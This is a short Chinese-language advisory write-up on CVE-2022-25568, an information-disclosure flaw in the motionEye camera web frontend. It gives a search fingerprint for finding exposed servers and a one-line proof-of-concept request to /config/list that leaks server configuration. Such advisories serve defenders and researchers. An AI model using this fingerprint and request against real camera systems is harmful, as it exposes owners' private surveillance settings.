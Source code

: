 # MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用Python写的motion的Web前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的URL即可获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>MotionEye <= v0.42.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>banner="motionEye"</a-checkbox></br>

## 漏洞复现

通过查看响应Server判断是否使用

![img](../../../.vuepress/public/img/1648370477879-da0555d4-84d5-4fed-88c2-2d42749521de.png)

验证POC

```php
/config/list
```

![img](../../../.vuepress/public/img/1648370501659-cad58608-0a9b-4697-87ad-86f79626b686.png)